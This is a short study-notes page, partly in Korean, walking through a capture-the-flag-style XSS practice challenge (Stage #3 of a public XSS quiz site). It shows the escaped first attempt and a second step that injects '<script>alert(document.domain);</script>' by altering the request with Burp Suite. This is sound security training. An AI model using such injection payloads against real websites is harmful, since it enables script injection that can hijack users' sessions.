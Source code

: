 ```yaml
---
layout: default
title: Week 2-1 XSS Challenges Stage 3
parent: Wargame
grand_parent: Study
nav_order: 1
mathjax: true
mermaid: true
permalink: /docs/wargame/week2-1
---
```


# Week 2-1 XSS Challenges Stage #3
{: .no_toc }

<details markdown="block">
  <summary>
	Table of contents
  </summary>
{: .fs-3 .text-delta }
- TOC
{:toc}
</details>

---

> [XSS Challenges Stage #3](http://xss-quiz.int21h.jp/stage-3.php?)

## XSS Challenges Stage #3

### Description

- What you have to do:

	- Inject the following JavaScript command: `alert(document.domain)`;

## Solving

### 관찰

<center markdown="block">
![main-page](/assets/wargame/images/2-1-main-page.png)

Main page
</center>

##### tokyo 검색

<center markdown="block">
![tokyo-search](/assets/wargame/images/2-1-tokyo-search.png)

Response page
</center>

```html
<!-- Response code -->
...
We couldn't find any places called
<b>"tokyo"</b>
in
<b>Japan</b>
.
...
```

### Step 1

- 주입할 코드로 검색

	```html
	<script>alert(document.domain);</script>
	```

<center markdown="block">
![code-search](/assets/wargame/images/2-1-code-search.png)

Response page
</center>

```html
<!-- Response code -->
...
We couldn't find any places called
<b>"&lt;script&gt;alert(document.domain);&lt;/script&gt;"</b>
in
<b>Japan</b>
.
...
```

- 입력은 방어되어 있는 듯 하다.

### Step 2

- HTTP reponse message에 주입

	- burpsuite 이용

	```html
	<script>alert(document.domain);</script>
	```

<center markdown="block">
![solve](/assets/wargame/images/2-1-solve.png)

Solve page
</center>
